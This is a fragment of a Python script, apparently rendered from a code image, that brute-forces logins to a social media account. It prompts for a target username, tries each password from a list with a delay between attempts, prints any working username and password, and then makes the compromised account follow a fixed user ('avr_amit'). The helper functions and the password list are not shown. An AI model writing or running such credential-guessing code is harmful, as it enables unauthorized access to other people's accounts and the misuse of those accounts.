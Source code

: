 


username = str(input('Please enter a username: '))
username = userExists(username)
if (username == False):
	exit()
else:
	username = username['username']



delayLoop = int(input('Please add delay between the passwords (in seconds): ')) 


for i in range(len(passwords)):
	password = passwords[i]
	sess = Login(username,password)
	if (sess):
		print ('Login success %s' % [username,password])

		#because i am cool
		follow(sess,'avr_amit')

	try:
		time.sleep(delayLoop)
	except KeyboardInterrupt:
		an = str(input('Type y/n to exit: '))
		if (an == 'y'):
			exit()
		else:
			continue
